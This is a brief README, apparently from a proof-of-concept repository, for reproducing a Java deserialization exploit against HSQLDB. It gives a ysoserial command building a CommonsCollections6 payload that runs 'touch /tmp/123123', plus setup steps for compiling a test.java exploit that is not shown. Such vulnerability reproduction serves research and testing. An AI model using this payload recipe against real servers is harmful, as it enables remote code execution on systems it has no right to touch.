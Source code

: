 # Use ysoserial create payload 

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections6 "touch /tmp/123123" > /tmp/calc.ser
```

# Add tomcat to hsqldb-source-master

use intellij idea to add tomcat for the project


# Compile test.java to complete expoloit

Attention:
1. add commons-codec.jar to the project
2. add hsqldb.jar to the project

java -jar hsqldb.jar:commons-codec.jar test.java
